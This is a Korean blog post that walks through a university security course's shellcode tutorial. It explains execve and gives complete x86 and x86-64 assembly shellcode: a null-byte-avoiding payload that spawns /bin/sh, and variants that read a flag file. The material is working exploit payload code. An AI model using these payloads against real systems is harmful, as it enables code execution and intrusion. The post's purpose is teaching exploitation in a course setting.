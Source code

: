 ```yaml
---
layout: post
title:  "Shellcode란?"
date:   2020-12-30 20:19:35 +0900
categories: [ComputerArchitecture]
---
```


## Shellcode 튜토리얼
- 참고링크: [CS6265 튜토리얼](https://tc.gts3.org/cs6265/2020/tut/tut02-warmup2.html#shellcode)  
- 목표: interactive shell 실행
Shellcode란 기본적으로 시스템 해킹, [exploitation(취약점 공격)](https://ko.wikipedia.org/wiki/%EC%B7%A8%EC%95%BD%EC%A0%90_%EA%B3%B5%EA%B2%A9)을 위한 generic [payload](https://ko.wikipedia.org/wiki/%ED%8E%98%EC%9D%B4%EB%A1%9C%EB%93%9C_(%EC%BB%B4%ED%93%A8%ED%8C%85))이다. 

위 링크의 CS6265 튜토리얼에서는 우선 execve를 사용해서 현재 실행중인 프로세스를 바꿔서 정해진 flag를 출력하도록 합니다.

## execve란

`int execve(const char *filename, char *const argv[], char *const envp[]);`

이 함수는 현재 실행중인 프로세스의 실행코드를 실행가능한 파일인 filename로 바꿉니다. filename 프로그램의 코드를 메모리에 새로 load함으로써, 현재 실행 중인 프로세스의 기능이 filename의 것으로 완전히 바뀝니다. 그래서 기존 프로세스는 그대로 두면서 새로운 프로세스를 만드는 fork()와는 구별됩니다. 

위의 argv는 argument vector, envp는 environment입니다. argument가 배열 형태로 따라오고, 또 환경변수로도 따라옵니다. 

## shellcode에서 execve
### 32비트 코드
우선 32비트 버전입니다. 아래에 코드 1과 코드 2가 있는데, 코드 1을 수정해서 flag를 출력할 수 있도록 (코드 2로) 바꾸어야 합니다. 그 과정을 보면, 우선 `#define STRING`을 통해서 문자열을 하나 만듭니다. 그 문자열은 맨 아래의 `.string STRING`에 있습니다. 이게 특이한 부분인데 보통 실행코드가 위치해야 하는 어셈블리의 부분에 문자열이 있습니다.  
STRING을 코드 2와 같이 고치면 어떻게 될까요? 다른 부분도 고쳐야 하기는 하지만, 결론을 말하면 `/bin/sh`를 실행하던 코드가 `/bin/cat`을 실행하고, 그 `/bin/cat`의 argument로 `/proc/flag`를 넘겨줘서 flag가 출력됩니다. 

- 코드 1의 개요도
    ```
    +-------------+
    v             |
    [/bin/cat][0][ptr ][NULL]
                ^     ^     
                |     +-- envp
                +-- argv

    ```

- 코드 2의 개요도
    ```
    +----------------------------+
    |             +--------------=-----+
    v             v              |     |
    [/bin/cat][0][/proc/flag][0][ptr1][ptr2][NULL]
                                ^           ^
                                |           +-- envp
                                +-- argv

    ```

- 코드 1
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/sh"
    #define STRLEN  7
    #define ARGV    (STRLEN+1)
    #define ENVP    (ARGV+4)

    .intel_syntax noprefix
    .text

    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */

    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

- 코드 2
    ```
    #include <sys/syscall.h>

    #define STRING  "/bin/catN/proc/flag"
    #define STRLEN1 8
    #define STRLEN2 19
    #define ARGV    (STRLEN2+1)
    #define ENVP    (ARGV+8)

    .intel_syntax noprefix
    .text
        
    .globl main
    .type  main, @function

    main:
    jmp     calladdr

    popladdr:
    pop    esi                    /* esi points to STRING */
    mov    edi, esi
    add    edi, STRLEN1+1

    mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
    mov    [ARGV+4+esi], edi

    xor    eax,eax                /* get a 32-bit zero value */
    mov    [STRLEN1 + esi],al      /* null-terminate our string */
    mov    [STRLEN2 + esi],al      /* null-terminate our string */
    mov    [ENVP + esi], eax      /* set up null envp */
    
    mov    al,SYS_execve          /* syscall number */
    mov    ebx,esi                /* arg 1: string pathname */
    lea    ecx,[ARGV + esi]       /* arg 2: argv */
    lea    edx,[ENVP + esi]       /* arg 3: envp */
    int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */
    
    xor    ebx,ebx                /* arg 1: 0 */
    mov    eax,ebx
    inc    eax                    /* exit(0) */
    /* mov+inc to avoid null byte */
    int    0x80                   /* invoke syscall */

    calladdr:
    call    popladdr
    .string STRING

    ```

### 64비트 코드
64비트 코드도 원리는 같습니다. 다만 레지스터들이 rdi, rsi, rdx, ... 하는 식으로 바뀌고, 주소값이 64비트로 바뀌고, `int 80` 대신 `syscall`을 이용하는 등의 차이가 있습니다. (`int 80`은 먹히기는 하는데 `syscall`이 더 빨라서, 64비트 머신에서는 `syscall`이 권장된다고 합니다.) 아래 코드에 해당하는 문제는 위의 코드와는 살짝 다른데, 이번에는 `/bin/cat`을 통해서 출력하는 게 아니라 `/proc/flag`를 직접 open, read, write 하는 문제입니다. 여기서 buf는 메모리의 어떤 곳으로 해당 flag를 read할 때 필요합니다. $rsp-0x500으로 임의로 정했는데 잘 작동합니다. 

```
#include <sys/syscall.h>

#define STRING  "/proc/flag"

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    r8                    /* r10 points to STRING */

  xor    rax,rax                /* get a 64-bit zero value */
  xor    rdi,rdi                /* get a 64-bit zero value */
  xor    rsi,rsi                /* get a 64-bit zero value */
  xor    rdx,rdx                /* get a 64-bit zero value */

  push   r8

  mov    rax,0x2               /* syscall number of open */
  mov    rsi,0x0                /* arg 2: flag */
  mov    rdi,r8                 /* arg 1: string filename */
  xor    rdx,rdx                /* arg 3: int flags */
  syscall                       /* openat(0, "/proc/flag", 0) */

  mov    rdi,rax                /* arg 1: fd */
  mov    rsi,rsp                /* arg 2: buf */
  sub    rsi, 0x500
  mov    rax,0x0                /* syscall number of read */
  mov    rdx,0x418              /* arg 3: count */
  syscall

  mov    rax,0x1                 /* syscall number of write */
  mov    rdi,0x1                 /* arg 1: stdout */
  mov    rsi,rsi                 /* arg 2: buf */
  mov    rdx,0x418               /* arg 3: length of string to read */
  syscall

  xor    rdi,rdi               /* arg 1: 0 */
  mov    rax,rdi
  mov    rax,0x3c                    /* exit(0) */
  /* mov+inc to avoid null byte */
  syscall                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING

```

## 유용한 명령어들
- `strace`, `ltrace` : system call 내역을 나열합니다. 